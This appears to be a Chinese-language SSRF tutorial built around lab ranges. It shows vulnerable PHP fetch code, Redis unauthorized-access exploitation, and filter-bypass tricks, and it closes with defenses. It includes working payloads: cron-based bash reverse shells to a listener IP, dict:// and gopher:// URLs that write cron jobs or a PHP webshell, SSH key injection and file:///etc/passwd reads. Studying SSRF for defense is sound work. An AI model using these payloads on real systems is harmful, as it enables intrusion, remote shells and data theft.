

# SSRF漏洞
## 一、SSRF是什么？
CSRF：跨站请求伪造，客户端请求伪造
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

## 二、SSRF漏洞原理
SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能，比如使用户从指定的URL web应用获取图片、下载文件、读取文件内容等。且没有对目标地址做过滤与限制，导致攻击者可以传入任意的地址来让后端服务器对其发送请求，并返回对该目标地址请求的数据。
## 三、SSRF与CSRF的区别
CSRF是服务器端没有对用户提交的数据进行随机值校验，且对http请求包内的refer字段校验不严，导致攻击者可以利用用户的cookie信息伪造用户请求发送至服务器；

SSRF是服务器对用户提供的可控URL过于信任，没有对攻击者提供的URL进行地址限制和足够的检测，导致攻击者可以以此为跳板攻击内网或者其它服务器
## 四、SSRF的简单实例
### 环境说明
使用本机作为客户端，使用安装了PHP study并部署了pikachu靶场的win2003为服务器，使用同样安装了PHP study的win10主机充当win2003服务器的MySQL数据库服务器。
本机可以访问具有公网IP的win2003服务器，但无法访问win10.而win2003与win10处于同一内网环境，可以相互访问。
### 环境配置
 - win2003安装两块网卡，其中一块使用桥接模式，使之拥有与公网IP相同效果，供本机访问。第二块网卡设置一个IP为10.0.0.5
 - win10安装一块网卡，设置IP为10.0.0.6使之与win2003的第二块网卡可以相互访问
 - 使用终端的ping来检测搭建的环境是否正确（单向ping通检查防火墙）
至此环境搭建完毕
### 实例
本机访问pikachu站点的ssrf（curl）关卡，单击提示后发现url中多了一个参数

查看源码

发现他直接访问了url参数里的值，没有进行任何过滤，因此我们可以修改url参数的值为http:10.0.0.6 。有数据返回则证明10.0.0.6主机的80端口开放。同理可以修改IP与端口来检测其存活。（可以利用BP批量发包探测）
若要让其能访问https协议网站，最好打开如下配置：

### bp的intruder功能
选择集束炸弹Clusterbomb攻击类型，批量自动化探测内网存活主机和开放端口

## 五、SSRF漏洞利用（危害）
主要是用来进行内网探测，也可以说是内网信息收集，存活主机和开放端口。
1. 可以对外网服务器所在的内网进行端口扫描，获取一些服务的banner信息;
2. 有时候还可以攻击运行在内网或本地的应用程序; 比如通过ssrf给内网的redis写定时任务，实现反弹
shell
3. 对内网web应用进行指纹识别;
4. 攻击内外网的web应用，比如struts2，sql注入等;
5. 利用file协议读取本地文件等。
6. 各种伪协议进行探测：http,file,dict,ftp,gopher等
## 六、SSRF漏洞可能出现的地方
1. 社交分享功能：通过URL地址分享网页内容

2. 在线翻译:通过URL地址翻译对应文本的内容。
有道翻译大家可以看一下。

再比如

3. 图片、文章收藏功能
图片、文章收藏功能:此处的图片、文章收藏中的文章收藏就类似于分享功能中获取URL地址中title以及文本的内容作为显示，目的还是为了更好的用户体验。
例如title参数是文章的标题地址，代表了一个文章的地址链接，请求后返回文章是否保存，收藏的返回信息。如果保存，收藏功能采用了此种形式保存文章，则在没有限制参数的形式下可能存在SSRF。
```
    http://title.xxx.com/title?title=http://title.xxx.com/as52ps63de
```
4. 从URL关键字中寻找
利用google 语法加上这些关键字去寻找SSRF漏洞
```
    share
    wap
    url
    link
    src
    source
    target
    u
    display
    sourceURl
    imageURL
    domain
```
例如：简单来说就是网址url里面还有个网址url

简单来说：所有目标服务器会从自身发起请求的功能点，且我们可以控制地址的参数，都可能造成SSRF漏洞
## 七、产生SSRF漏洞的函数
SSRF攻击可能存在任何语言编写的应用，接下来将举例php中可能存在SSRF漏洞的函数。
1. file_get_contents
下面的代码使用file_get_contents函数从用户指定的url获取图片。然后把它用一个随机文件名保存在硬盘上，并展示给用户。
```
    <?php
    if (isset($_POST['url']))
    {
    $content = file_get_contents($_POST['url']);
    $filename ='./images/'.rand().';img1.jpg';
    file_put_contents($filename, $content);
    echo $_POST['url'];
    $img = "";
    }
    echo $img;
    ?>
  ```
2. sockopen()
以下代码使用fsockopen函数实现获取用户制定url的数据（文件或者html）。这个函数会使用socket跟服务器建立tcp连接，传输原始数据。
```
    <?php
    function GetFile($host,$port,$link)
    {
    $fp = fsockopen($host, intval($port), $errno, $errstr, 30);
    if (!$fp) {
    echo "$errstr (error number $errno) \n";
    } else {
    $out = "GET $link HTTP/1.1\r\n";
    $out .= "Host: $host\r\n";
    $out .= "Connection: Close\r\n\r\n";
    $out .= "\r\n";
    fwrite($fp, $out);
    $contents='';
    while (!feof($fp)) {
    $contents.= fgets($fp, 1024);
    }
    fclose($fp);
    return $contents;
    }
    }
    ?>
```
3. curl_execl
curl这是另一个非常常见的实现，它通过 PHP获取数据。能够构造请求头。文件/数据被下载并存储在“curled”文件夹下的磁盘中，并附加了一个随机数和“.txt”文件扩展名。
```
    <?php
    if (isset($_POST['url']))
    {
    $link = $_POST['url'];
    $curlobj = curl_init();
    curl_setopt($curlobj, CURLOPT_POST, 0);
    curl_setopt($curlobj,CURLOPT_URL,$link);
    curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
    $result=curl_exec($curlobj);
    curl_close($curlobj);
    $filename = './curled/'.rand().'.txt';
    file_put_contents($filename, $result);
    echo $result;
    }
    ?>
```
注意事项
```
    一般情况下PHP不会开启fopen()的gopher wrapper
    file_get_contents()的gopher协议不能URL编码
    file_get_contents()关于Gopher的302跳转会出现bug，导致利用失败
    curl/libcurl 7.43 上gopher协议存在bug(%00截断) 经测试7.49 可用
    curl_exec() 默认不跟踪跳转，
    file_get_contents() file_get_contents支持php://input协议
```
## 八、redis未授权访问漏洞
### redis安装与介绍
redis是高速缓存型数据库，主要用户缓存一些频繁使用的数据来缓解数据库的访问压力。而redis未授权访问漏洞是因为redis数据库使用的过程中没有设定密码，任何人都可以直接连接到数据库，这就是未
授权访问漏洞，这是个通用漏洞，不分版本。Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到
公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况Redis 的情况下，利用 Redis 自身
的提供的config 命令，可以进行写文件操作，然后写入一些危险的文件内容造成被攻击的情况出现。简单说，漏洞的产生条件有以下两点：
（1）redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网；
（2）没有设置密码认证（一般为空），可以免密码远程登录redis服务。
redis下载地址：https://redis.io/download/
安装redis
克隆一个我们前面安装好的centos7.8的虚拟机来安装redis。
```
1.安装redis依赖
Redis是基于C语言编写的，因此首先需要安装Redis所需要的gcc依赖
yum install -y gcc tcl
2.将我们下载的redis-6.2.13.tar.gz上传到服务器上，然后解压，我直接上传到了/root目录下面
tar -xzf redis-6.2.13.tar.gz
3.进入redis目录，运行编译命令进行编译安装
cd redis-6.2.13
make && make install
默认的安装路径是在 /usr/local/bin目录下，查看目录下的内容确保安装成功
4.可以直接启动redis了
redis-server
redis-server redis.conf # 指定配置文件启动，配置文件默认位置在我们解压的目录中，cd
/root/redis-6.2.13目录中
5.停止redis进程
ps -ef | grep redis
kill -9 pid即可
6.修改配置文件
#先备份配置文件
cp redis.conf redis.conf.bak
vim redis.conf
# 修改如下两个配置
#允许访问的地址，默认是127.0.0.1，会导致只能在本地访问。修改为0.0.0.0则可以在任意IP访
问，生产环境不要设置为0.0.0.0
bind 0.0.0.0
#守护进程，修改为yes后即可后台运行
daemonize yes
#设置后访问Redis必须输入密码
#注意：这个密码不用配置，要的就是没有密码直接可以连接redis服务，这就是未授权访问漏洞
#requirepass 123456
7. 启动redis
redis-server redis.conf
# 查看是否运行成功
ps -ef | grep redis
8.为了方便控制redis，我们可以把redis添加为服务，就可以通过systemctl来控制redis了
# 一、首先，新建一个系统服务文件
vim /etc/systemd/system/redis.service
# 二、写入如下内容
[Unit]
Description=redis-server
After=network.target
[Service]
Type=forking
ExecStart=/usr/local/bin/redis-server /root/redis-6.2.13/redis.conf #配置文件所在路径
PrivateTmp=true
[Install]
WantedBy=multi-user.target
#三、重载系统服务
systemctl daemon-reload
#四、需要重启主机
reboot
9. 然后可以用下面这组命令来操作redis
#启动
systemctl start redis
#停止
systemctl stop redis
#重启
systemctl restart redis
#查看状态
systemctl status redis
#最后设置redis开机自启
systemctl enable redis
10. 测试连接redis服务端，安装完redis之后，默认会安装一个本地的客户端redis-cli，可以通过这个
客户端连接操作服务端
redis-cli #直接回车就能连接本地的redis数据库服务端，默认是没有密码的
reids-cli -h 远程ip地址 #可连接远程redis服务端
```
到目前为止，redis就算是安装完成了。
### redis基本操作
redis默认端口为6379，这个要记住。
```
添加数据：set key value
获取数据：get key
删除数据：del key
查看有哪些key：keys *
清空所有数据：flushall # (慎用)
```
### redis配置操作
```
config set dir /home/test # 设置工作目录
config set dbfilename redis.rdb # 设置备份文件名
config get dir # 检查工作目录是否设置成功
config get dbfilename # 检查备份文件名是否设置成功
save # 进行一次备份操作
```
redis是高速缓存型数据库，也就是内存存储，但是也支持持久化，也就保存到磁盘上，保存到磁盘上时是通过一个文件来保存的，redis可以通过redis的操作语句来控制redis在系统中保存数据的目录和文件
名称。redis进行save后生成的持久化存储文件路径就是dir/dbfilename
### redis未授权访问漏洞利用方式
#### 一、利用定时任务反弹shell
监听机器：centos7.8
```
nc -lvvp 4444 #本机ip地址为192.168.61.149
```
通过目标主机的redis未授权访问漏洞写入反弹shell的指令
```
redis-cli -h 192.168.61.148 #未授权登录目标主机的redis
set xxx "\n\n* * * * * /bin/bash -
i>&/dev/tcp/192.168.61.149/4444 0>&1\n\n" #* * * * *表示每分钟执行一次，/bin/bash -i是创建一个bash终端，>&/dev/tcp/192.168.61.149/4444是发送给192.168.61.149的4444端口的监听程序。
config set dir /var/spool/cron #设置备份文件为系统定时任务路径
config set dbfilename root #定时任务的文件名称是根据用户名称来的，因此将备份文件命名为root
save #保存，会将redis中的数据保存到指定的目录和dbfilename指定的文件中去。即创建了root用户的定时任务，任务内容为每分钟反弹shell至监听主机
```
一会我们就看到监听机器上看到了反弹回来的shell，如下

其中ip addr 指令可能用不了，因为反弹回来的shell需要用绝对路径来使用这个指令：
```
which ip
/user/sbin/ip addr
```
我们可以看到，通过写定时任务可以反弹shell。但是反弹shell需要一个前提条件，就是目标主机是可以出网的，意思就是目标主机可以上网才行，如果目标主机不能上网，也就是不出网，那么就需要用到我们后续内网渗透中学到的知识了，比如代理和隧道等技术，让不出网的主机出网。
#### 二、利用redis写webshell
webshell我们前面已经学过了，也用过了，所以这里不用多提，重点就是将一句话木马程序写入到redis中，然后保存到站点根目录下即可。（配置dir与dbfilename至站点目录下，再通过浏览器访问）
#### 三、利用公私钥认证写入root用户公钥获取root免密
我们远程登录一台linux主机的时候，都是可以免密登录的，比如下面的示例：
```
操控主机：
    1.生成公私钥
    ssh-keygen
    2.将公钥拷贝到目标主机的/root/.ssh/authorized_keys
远程目标主机：
    1.在/root/目录下创建.ssh隐藏文件夹
    2.cd .ssh ，进入.ssh目录。创建authorized_keys文件
    3.将操作主机的公钥写入到authorized_keys文件中
在操控主机上执行ssh root@目标主机ip地址，直接就可以连接，不需要输入密码了，这就是公私钥免密登录
```
也就是说，我们想办法将自己主机的公钥写入或者拷贝到目标主机的authorized_keys文件中就直接可以免密登录。（配置redis备份目录为/root/.ssh,dbfilename为authorized_keys,将公钥写入redis并save）
### redis未授权访问漏洞的防护手段
1.添加防火墙策略，只允许某些IP地址访问这个redis服务器
2.设置连接登录密码
打开redis.conf配置文件，找到requirepass，然后修改如下：
```
requirepass yourpassword
yourpassword就是redis验证密码，设置密码以后发现可以登陆，但是无法执行命令了。
命令如下:
redis-cli -h yourIp -p yourPort//启动redis客户端，并连接服务器
keys * //输出服务器中的所有key
报错如下
(error) ERR operation not permitted
这时候你可以用授权命令进行授权，就不报错了
命令如下:
auth youpassword
```
## 九、SSRF漏洞发起应用程序攻击
### SSRF利用redis未授权访问漏洞进行攻击
#### 定时任务反弹shell
dict协议反弹shell和gopher协议反弹shell等操作，直接看伪协议部分。
反弹shell会玩了之后，相信大家自行就能够完成利用redis写webshell、利用公私钥认证写入root用户公钥获取root免密登录的示例了，这里我就不再演示了。
### SSRF漏洞之FastCGI利用
这个我在这里就先不多提了，大家有兴趣的可以研究一下，没兴趣的就继续往后面学习。
https://cloud.tencent.com/developer/article/2105554
### weblogic的ssrf漏洞利用
直接使用vulhub靶场即可练习：https://vulhub.org/#/environments/weblogic/ssrf/
我们前面自己搭建过本地的vulhub靶场。
## 十、SSRF绕过方式
部分存在漏洞，或者可能产生SSRF的功能中做了白名单或者黑名单的处理，来达到阻止对内网服务和资源的攻击和访问。因此想要达到SSRF的攻击，需要对请求的参数地址做相关的绕过处理，常见的绕过方式如下：
### 一、常见的绕过方式
1. 限制为http://www.xxx.com域名时（利用@）
```
可以尝试采用http基本身份认证的方式绕过
如：http://www.aaa.com@www.bbb.com@www.ccc.com，在对@解析域名中，不同的处理函数存在处理差异
在PHP的parse_url中会识别www.ccc.com，而libcurl则识别为www.bbb.com。
```

2. 采用短网址绕过，也叫做url短链接
```
比如百度短地址https://dwz.cn/
有很多在线网站就能帮我们的网址转换为url短链接形式，原理就是当请求这个短链接的时候，url短链接提供商的服务器先解析一下对应的真实url，然后拿到真实url之后再发起访问，这样提交的数据看不到真实url，用来绕过后端代码对网址的过滤，所以url短链接经常用于攻击行为和钓鱼行为等
```
3. 采用进制转换
```
127.0.0.1 八进制：0177.0.0.1 十六进制：0x7f.0.0.1 十进制:2130706433
```

4. 利用特殊域名
```
原理是DNS解析。xip.io可以指向任意域名，即127.0.0.1.xip.io，可解析为127.0.0.1 (xip.io 现在好像用不了了，可以找找其他的)
``` 
5. 利用[::]
```
可以利用[::]来绕过localhost
http://169.254.169.254>>http://[::169.254.169.254]
# 这种写法是ipv6的地址写法，只要对方支持ipv6的ip地址访问就行，需要配置才行，比如nginx就可以配置ipv6来访问
```
6. 利用句号
```
127。0。0。1 >>> 127.0.0.1
比如： ping 127。0。0。1，注意，linux系统才能识别，windows系统不能识别
```
7. CRLF编码绕过
```
%0d->0x0d->\r回车
%0a->0x0a->\n换行
进行HTTP头部注入
example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a
```
8. 利用封闭的字母数字
```
利用Enclosed alphanumerics，有些输入法直接就可以输入这样的封闭字符
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ >>> example.com
http://169.254.169.254>>>http://[::①⑥⑨｡②⑤④｡⑯⑨｡②⑤④]
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
比如ping ①②⑦.⓪.⓪.① 注意，也是linux系统支持
```
### 二、常见限制
1. 限制为http://www.xxx.com 域名
```
采用http基本身份认证的方式绕过，即@
http://www.xxx.com@www.xxc.com
```
2. 限制请求IP不为内网地址
```
当不允许ip为内网地址时：
（1）采取短网址绕过
（2）采取特殊域名
（3）采取进制转换
```
3. 限制请求只为http协议
```
（1）采取302跳转 https-->http
（2）采取短地址
```
## 十一、SSRF中URL的伪协议
当我们发现SSRF漏洞后，首先要做的事情就是测试所有可用的URL伪协议
```
http:// 主要用于探测主机存活和端口的开放情况
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info
gopher:// 分布式文档传递服务，可使用gopherus生成payload
ftp:// 针对21端口的探测
sftp:// SSH文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议 windows 域控
```
1、file
这种URL Schema可以尝试从文件系统中获取文件，file协议主要用于读取服务器本地文件，访问本地的静态资源，例如

还可以
```
http://192.168.31.111/pikachu/vul/ssrf/ssrf_curl.php?url=file:///C:\\111.txt
http://192.168.31.111/pikachu/vul/ssrf/ssrf_curl.php?url=file:///C:/111.txt
```
file协议数据格式： file:///文件绝对路径名
2、dict
这种URL Scheme能够引用允许通过DICT协议使用的定义或单词列表，dict协议一般常用来探测内网主机以及端口开放情况，既然能够探测端口，那么可以探测不同端口对应的服务的指纹信息。当然dict协议也可以用来执行一些服务的命令，如redis。
```
主要用来：
1.内网主机探测
2.开放端口探测
3.端口服务指纹探测
4.执行命令
一、dict协议探测端口和服务指纹
dict://127.0.0.1:22 # 受害主机探测的时候可以用127.0.0.1
dict://192.168.61.161:22
dict://192.168.61.161:3306
dict://192.168.61.161/info
二、dict协议攻击redis，写入定时任务，进行反弹shell
centos系统定时任务的路径为：/var/spool/cron
debian系统定时任务的路径为：/var/spool/cron/crontabs
dict://192.168.61.161:6379/config:set:dir:/var/spool/cron
dict://192.168.61.161:6379/config:set:dbfilename:root
dict://192.168.61.161:6379/set:jaden:"\n\n*/1 * * * * /bin/bash -i >&
/dev/tcp/192.168.61.149/1234 0>&1\n\n"
# */1 * * * *是每隔1分钟执行一次
注意：若payload存在被转义或过滤的情况或者由于url编码导致失效的情况出现，可利用16进制写入内容
dict://192.168.61.161:6379/set:jaden:"\n\n\x2a/1\x20\x2a\x20\x2a\x20\x2a\x20\x2a
\x20/bin/bash\x20\x2di\x20\x3e\x26\x20/dev/tcp/192.168.61.149/1234\x200\x3e\x261
\n\n"
dict://192.168.61.161:6379/save
三、dict协议攻击redis，写入webshell
dict://192.168.61.161:6379/config:set:dbfilename:test.php
dict://192.168.61.161:6379/config:set:dir:/var/www/html
dict://192.168.61.161:6379/set:jaden:"\n\n<?php @ev..($_POST[x]);?>\n\n"
dict://192.168.61.161:6379/save
若存在过滤， 则利用16进制内容写入：
dict://192.168.61.161:6379/set:test:"\n\n\x3c\x3f\x70\x68\x70\x20\x40\x65\x76\x6
1\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x78\x5d\x29\x3b\x3f\x3e\n\n"
四、dict协议攻击redis，写入ssh公钥
操作和写入定时任务相似
```
3、sftp
在这里，Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（SecureFile Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作。
4、ldap://或ldaps://或ldapi://
LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议。
5、gopher://
Gopher是一种分布式文档传递服务。利用该服务，用户可以无缝地浏览、搜索和检索驻留在不同位置的信息。那么它在ssrf中如何使用呢？需要发送多行数据时，就要用到gopher协议，同样使用nc简单测试一下，可以看到接收端成功接收到了换行的数据，所以gopher协议可以用来攻击那些需要交互的应用。gopher协议支持多行数据一起发送，dict协议不支持换行符，没有办法进行换行，相当于一次只能执行一条命令，所以不能用来攻击那些需要交互的应用（比如需要认证的redis，每次都要先发送登录密码，紧接着就是要执行的指令，每次都是如此）。 并且gopher协议支持发出GET、POST请求：可以先截获get请求包和post请求包，再构成符合gopher协议的请求。gopher协议是ssrf利用中最强大的协议。GOPHER协议是一种比HTTP协议还要古老的协议，默认工作端口70，但是gopher协议在SSRF漏洞利用上比HTTP协议更有优势。GOPHER协议可以以单个URL的形式传递POST请求，同时支持换行。
```
协议格式：
gopher://ip:port/_数据包 # 数据包前面的_是一个无用字符，因为gopher协议的数据格式默认
会吃掉第一个数据，所以给一个无用数据占位。
格式要求：
1.gopher协议会吃掉第一个字符，所以要先放一个没有用的字符
2.要进行url编码
3.gopher协议数据流中，url编码之后使用%0d%0a替换字符串中的回车换行
4.数据流末尾使用%0d%0a代表消息结束
```
攻击redis之前先了解一下redis的协议数据流格式，方便后面对gopher协议中携带的数据流进行理解。
数据流格式中CR LF表示的就是\r \n
```
*<参数数量> CR LF
$<参数 1 的字节数量> CR LF
<参数 1 的数据> CR LF
...
$<参数 N 的字节数量> CR LF
<参数 N 的数据> CR LF
```
简单示例：
*4：表示4个参数 config、set、dir、/var/www/html
$6：表示每个参数的字节长度 config长度为6
```
*4
$6
config
$3
set
$3
dir
$13
/var/www/html
```
redis未授权常规写入定时任务反弹shell操作
```
# set jaden "\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.61.149/1444
0>&1\n\n\n\n"
config set dir /var/spool/cron
config set dbfilename root
save
```
gopher协议数据流写入操作 ，要将上面的数据转换为redis接受的数据格式，然后对_ 后面的数据进行url编码，如果后台触发漏洞的是curl_exec()，需要对_ 后面的数据进行二次URL编码，如果是file_get_contents()造成的ssrf，就不需要二次url编码了。
但是其实把我们想要执行的redis指令加工成redis接受的数据格式，手动来修改格式的话太麻烦了，有没有能够直接帮我们生成gopher协议的payload的工具呢，有的，看下面这个工具:Gopherus，
GitHub地址：https://github.com/tarunkant/Gopherus
工具已经给大家准备好了
GitHub上有这个工具的使用说明，它可以针对多种数据库进行gopher协议的payload的生成，下面我们用redis的来演示一下：
需要python2来执行如下脚本，kali上直接就有python2的环境，所以我就把工具放到kali上吧，解压一下，cd进入到解压后的目录中，执行如下指令：
```
python2 gopherus.py --expoit redis
```
效果如下：

生成的payload就是加工好的redis请求数据格式，并且是一次url编码的结果，如图

把payload拷贝出来，然后修改一下ip地址等数据：
```
改前：
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2470%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/192.168.118.176/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2415%0D%0A/var/spool/cron%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
改后：
gopher://192.168.118.176:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2470%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/192.168.118.176/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2415%0D%0A/var/spool/cron%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
#仅仅改动了IP
由于我们演示的示例，服务端代码是通过curl_exec()函数触发的ssrf，所以要对payload中无用字符_符
号后面的数据进行二次url编码
二次url编码之后：
gopher://192.168.118.176:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252470%250D%250A%250A%250A%252A%2F1%2520%252A%2520%252A%2520%252A%2520%252A%2520bash%2520-c%2520%2522sh%2520-i%2520%253E%2526%2520%2Fdev%2Ftcp%2F192.168.118.176%2F1234%25200%253E%25261%2522%250A%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252415%250D%250A%2Fvar%2Fspool%2Fcron%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25244%250D%250Aroot%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```
使用payload,查看redis所在服务器，看到了定时任务。并且拿到了受害主机的反弹shell。这样就完成了ssrf漏洞利用redis未授权访问漏洞来完成的反弹shell的操作。
## 十二、SSRF漏洞防御手法
通常有以下6个思路：
1、过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型
的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。
2、统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。
3、限制请求的端口为http常用的端口，比如，80,443,8080,8090。
4、防火墙策略，内网ip设置黑名单。避免应用被用来获取获取内网数据，攻击内网。
5、禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。
6、url网址写死，固定几个网址，其他网址一律不允许访问